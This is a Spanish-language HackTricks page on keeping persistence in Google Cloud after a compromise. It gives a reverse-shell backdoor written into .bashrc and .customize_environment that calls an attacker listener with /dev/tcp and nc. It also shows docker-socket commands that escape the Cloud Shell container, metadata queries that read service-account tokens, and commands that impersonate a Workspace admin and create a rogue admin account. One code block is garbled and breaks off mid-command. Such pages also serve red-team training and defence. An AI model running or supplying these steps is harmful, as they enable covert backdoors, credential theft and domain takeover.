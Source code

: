 # GCP - Persistencia no-svc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Estas son técnicas útiles una vez que, de alguna manera, se han comprometido algunas credenciales de GCP o una máquina que se ejecuta en un entorno de GCP.

## Google’s Cloud Shell <a href="#e5eb" id="e5eb"></a>

### Backdoor Persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) te proporciona acceso a la línea de comandos a tus recursos en la nube directamente desde tu navegador sin ningún costo asociado.

Puedes acceder a la Google Cloud Shell desde la **consola web** o ejecutando **`gcloud cloud-shell ssh`**.

Esta consola tiene algunas capacidades interesantes para los atacantes:

1. **Cualquier usuario de Google con acceso a Google Cloud** tiene acceso a una instancia de Cloud Shell completamente autenticada.
2. Dicha instancia **mantendrá su directorio principal durante al menos 120 días** si no hay actividad.
3. No hay **capacidades para que una organización supervise** la actividad de esa instancia.

Esto básicamente significa que un atacante puede poner una puerta trasera en el directorio principal del usuario y siempre que el usuario se conecte a GC Shell cada 120 días al menos, la puerta trasera sobrevivirá y el atacante obtendrá una shell cada vez que se ejecute solo haciendo:

```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```

Hay otro archivo en la carpeta principal llamado **`.customize_environment`** que, si existe, se ejecutará **cada vez que el usuario acceda a la shell en la nube** (como en la técnica anterior). Simplemente inserta la puerta trasera anterior o una como la siguiente para mantener la persistencia siempre que el usuario use "frecuentemente" la shell en la nube:

```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```

{% hint style="warning" %}
Ten en cuenta que **la primera vez que se realiza una acción en Cloud Shell que requiere autenticación**, aparece una ventana de autorización en el navegador del usuario que debe aceptarse antes de que se ejecute el comando. Si aparece una ventana emergente inesperada, el objetivo podría sospechar y quemar el método de persistencia.
{% endhint %}

### Escape de contenedor de Google Cloud Shell

Ten en cuenta que Google Cloud Shell se ejecuta dentro de un contenedor, puedes **escapar fácilmente al host** haciendo:

```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```

Esto no es considerado una vulnerabilidad por Google, pero te da una visión más amplia de lo que está sucediendo en ese entorno.

Además, ten en cuenta que desde el host puedes encontrar un token de cuenta de servicio:

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```

Con los siguientes alcances:

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```

## Secuestro de token

### Usuario autenticado

Si logras acceder a la carpeta principal de un **usuario autenticado en GCP**, por **defecto**, podrás **obtener tokens para ese usuario siempre que quieras** sin necesidad de autenticarte e independientemente de la máquina que uses sus tokens y aunque el usuario tenga MFA configurado.

Esto se debe a que, por defecto, **podrás usar el token de actualización siempre** que quieras para generar nuevos tokens.

Para obtener el token actual de un usuario, puedes ejecutar:

```bash
sqlite
## Propagación a Workspace a través de la delegación de autoridad en todo el dominio <a href="#spreading-to-g-suite-via-domain-wide-delegation-of-authority" id="spreading-to-g-suite-via-domain-wide-delegation-of-authority"></a>

[**Workspace**](https://gsuite.google.com) es la plataforma de colaboración y productividad de Google que consta de cosas como Gmail, Google Calendar, Google Drive, Google Docs, etc.

Las **cuentas de servicio** en GCP pueden recibir los **derechos para acceder programáticamente a los datos de los usuarios** en Workspace mediante la suplantación de usuarios legítimos. Esto se conoce como [delegación en todo el dominio](https://developers.google.com/admin-sdk/reports/v1/guides/delegation). Esto incluye acciones como **leer** **correo electrónico** en GMail, acceder a Google Docs e incluso crear nuevas cuentas de usuario en la organización de G Suite.

Workspace tiene [su propia API](https://developers.google.com/gsuite/aspects/apis), completamente separada de GCP. Los permisos se otorgan a Workspace y **no hay ninguna relación predeterminada entre GCP y Workspace**.

Sin embargo, es posible **darle** a una cuenta de servicio **permisos** sobre un usuario de Workspace. Si tiene acceso a la interfaz de usuario web en este punto, puede navegar a **IAM -> Cuentas de servicio** y ver si alguna de las cuentas tienen **"Habilitado" en la columna "delegación en todo el dominio"**. La columna en sí puede **no aparecer si no hay cuentas habilitadas** (puede leer los detalles de cada cuenta de servicio para confirmar esto). A partir de esta escritura, no hay forma de hacer esto programáticamente, aunque hay una [solicitud de esta función](https://issuetracker.google.com/issues/116182848) en el rastreador de errores de Google.

Para crear esta relación, es necesario **habilitarla en GCP y también en Workforce**.

#### Prueba de acceso a Workspace

Para probar este acceso, necesitará las **credenciales de la cuenta de servicio exportadas en formato JSON**. Es posible que haya adquirido estas en un paso anterior, o puede tener el acceso necesario ahora para crear una clave para una cuenta de servicio que sabe que tiene habilitada la delegación en todo el dominio.

Este tema es un poco complicado... su cuenta de servicio tiene algo llamado "client\_email" que puede ver en el archivo de credenciales JSON que exporta. Probablemente se vea algo como `account-name@project-name.iam.gserviceaccount.com`. Si intenta acceder a las llamadas de API de Workforce directamente con ese correo electrónico, incluso con la delegación habilitada, fallará. Esto se debe a que el directorio de Workforce no incluirá las direcciones de correo electrónico de las cuentas de correo electrónico de la cuenta de servicio de GCP. En cambio, para interactuar con Workforce, necesitamos suplantar a usuarios válidos de Workforce.

Lo que realmente desea hacer es **suplantar a un usuario con acceso administrativo**, y luego usar ese acceso para hacer algo como **restablecer una contraseña, desactivar la autenticación multifactor o simplemente crear una nueva cuenta de administrador brillante**.

Gitlab ha creado [este script de Python](https://gitlab.com/gitlab-com/gl-security/gl-redteam/gcp\_misc/blob/master/gcp\_delegation.py) que puede hacer dos cosas: listar el directorio de usuarios y crear una nueva cuenta administrativa. Así es como lo usaría:

```bash
# Validar solo el acceso
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com

# Listar el directorio
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --list

# Crear una nueva cuenta de administrador
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --account pwned
```

Puede probar este script en una variedad de direcciones de correo electrónico para suplantar a **varios usuarios**. La salida estándar indicará si la cuenta de servicio tiene acceso a Workforce y proporcionará una **contraseña aleatoria para la nueva cuenta de administrador** si se crea una.

Si tiene éxito al crear una nueva cuenta de administrador, puede iniciar sesión en la [consola de administración de Google](https://admin.google.com) y tener control total sobre todo en G Suite para cada usuario: correo electrónico, documentos, calendario, etc. Diviértete.

## Referencias

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si desea ver su **empresa anunciada en HackTricks** o si desea acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulte los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtenga el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>